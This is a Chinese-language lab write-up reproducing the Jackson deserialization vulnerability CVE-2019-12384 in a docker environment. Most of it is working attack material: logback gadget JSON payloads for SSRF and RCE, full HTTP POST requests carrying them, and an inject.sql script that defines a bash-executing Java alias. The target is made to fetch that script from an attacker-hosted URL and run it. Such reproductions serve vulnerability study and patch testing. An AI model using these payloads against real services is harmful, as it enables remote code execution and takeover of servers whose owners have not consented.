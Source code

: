 # Jackson 远程命令执行漏洞（CVE-2019-12384）

## 漏洞概述

当`Jackson`库对`JSON`进行反序列化的时候，存在反序列化漏洞，控制好反序列化的类，就能触发服务端请求伪造（SSRF）和远程代码执行漏洞（RCE）。
漏洞原理和分析参考：
- [Jackson gadgets - Anatomy of a vulnerability](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
- [CVE-2019-12384漏洞分析及复现](https://www.freebuf.com/vuls/209394.html)

## 漏洞环境
运行漏洞环境：
```bash
docker-compose up -d
```
命令执行成功后，需要等待以后，之后访问http://your-ip:8080即可访问jackson的测试页面，GET或POST方式传入POC即可。

## 漏洞复现
### SSRF
bp传入poc：
`["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:tcp://192.168.80.133:4444/~/test"}]`

bp构造POC如下：
```http
POST /fuckme HTTP/1.1
Host: fuck.me:8080
Proxy-Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.80.133:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 169
Content-Type: application/x-www-form-urlencoded

poc=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:tcp://192.168.80.133:4444/~/test"}]
```
成功收到来自服务器的请求：
![](https://pic.superbed.cn/item/5d57c5ae451253d178b20b89.jpg)
### RCE
bp传入poc：
`["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://192.168.80.133:8080/inject.sql'"}]`

该poc利用此服务器的SSRF漏洞请求恶意文件。

恶意文件inject.sql内容如下：
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('ping 1.1.1.1')
```

bp中构造POC如下：
```http
POST /fuckme HTTP/1.1
Host: fuck.me:8080
Proxy-Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.80.133:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 169
Content-Type: application/x-www-form-urlencoded

poc=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://192.168.80.133:8080/inject.sql'"}]
```
![](https://pic.superbed.cn/item/5d57c407451253d178b1f421.jpg)

进入docker容器内部，查看是否存在`ping 1.1.1.1`的进程：
```bash
# 进入容器内部
docker exec -it jackson-fuckme bash
# 查看进程
ps -ef | grep ping
```
![](https://pic.superbed.cn/item/5d57c4ad451253d178b1fd98.jpg)

## 总结
整个利用的过程大概是这样：反序列化->SSRF->RCE

## 参考
- [Jackson gadgets - Anatomy of a vulnerability](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
- [CVE-2019-12384漏洞分析及复现](https://www.freebuf.com/vuls/209394.html)
- [Jackson CVE-2019-12384: 反序列化漏洞复现](https://blog.a0xpg.com/index.php/2019/07/23/jackson-cve-2019-12384-fanxuliehualoudongfuxian/)